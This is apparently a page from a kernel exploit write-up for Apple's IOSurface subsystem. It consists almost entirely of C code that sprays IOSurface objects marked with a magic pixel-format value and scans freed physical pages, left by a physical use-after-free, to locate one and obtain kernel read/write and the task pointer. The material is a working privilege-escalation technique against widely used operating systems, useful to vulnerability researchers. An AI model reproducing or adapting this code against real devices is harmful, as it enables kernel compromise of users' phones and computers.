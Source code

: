 Generate IOSurface objects with the magic value IOSURFACE\_MAGIC to later search for:

```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
    if (*nClients >= 0x4000) return;
    for (int i = 0; i < nSurfaces; i++) {
        fast_create_args_t args;
        lock_result_t result;
        
        size_t size = IOSurfaceLockResultSize;
        args.address = 0;
        args.alloc_size = *nClients + 1;
        args.pixel_format = IOSURFACE_MAGIC;
        
        IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
        io_connect_t id = result.surface_id;
        
        (*clients)[*nClients] = id;
        *nClients = (*nClients) += 1;
    }
}
```

Search for **`IOSurface`** objects in one freed physical page:

```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
    io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
    int nSurfaceIDs = 0;
    
    for (int i = 0; i < 0x400; i++) {
        spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);
        
        for (int j = 0; j < nPages; j++) {
            uint64_t start = puafPages[j];
            uint64_t stop = start + (pages(1) / 16);
            
            for (uint64_t k = start; k < stop; k += 8) {
                if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
                    info.object = k;
                    info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
                    if (self_task) *self_task = iosurface_get_receiver(k);
                    goto sprayDone;
                }
            }
        }
    }
    
sprayDone:
    for (int i = 0; i < nSurfaceIDs; i++) {
        if (surfaceIDs[i] == info.surface) continue;
        iosurface_release(client, surfaceIDs[i]);
    }
    free(surfaceIDs);
    
    return 0;
}
```
